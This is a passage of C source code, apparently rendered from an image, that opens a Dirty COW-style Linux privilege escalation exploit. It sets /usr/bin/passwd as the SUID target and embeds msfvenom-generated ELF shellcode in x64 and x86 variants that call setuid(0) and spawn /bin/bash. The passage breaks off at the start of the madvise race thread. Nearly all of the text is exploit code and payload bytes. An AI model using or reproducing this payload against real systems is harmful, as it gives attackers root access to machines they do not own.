 ```
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <unistd.h>

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

// change if no permissions to read
char suid_binary[] = "/usr/bin/passwd";

/*
* $ msfvenom -p linux/x64/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
*/ 
unsigned char shell_code[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0xb1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xea, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x31, 0xff, 0x6a, 0x69, 0x58, 0x0f, 0x05, 0x6a, 0x3b, 0x58, 0x99,
  0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53, 0x48,
  0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8,
  0x0a, 0x00, 0x00, 0x00, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73,
  0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};
unsigned int sc_len = 177;

/*
* $ msfvenom -p linux/x86/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
unsigned char shell_code[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x01, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x03, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x54, 0x80, 0x04, 0x08, 0x34, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x34, 0x00, 0x20, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x80, 0x04, 0x08, 0x00, 0x80, 0x04, 0x08, 0x88, 0x00, 0x00, 0x00,
  0xbc, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00,
  0x31, 0xdb, 0x6a, 0x17, 0x58, 0xcd, 0x80, 0x6a, 0x0b, 0x58, 0x99, 0x52,
  0x66, 0x68, 0x2d, 0x63, 0x89, 0xe7, 0x68, 0x2f, 0x73, 0x68, 0x00, 0x68,
  0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x52, 0xe8, 0x0a, 0x00, 0x00, 0x00,
  0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73, 0x68, 0x00, 0x57, 0x53,
  0x89, 0xe1, 0xcd, 0x80
};
unsigned int sc_len = 136;
*/

void *madviseThread(void *arg) {
  int i,c=0;
```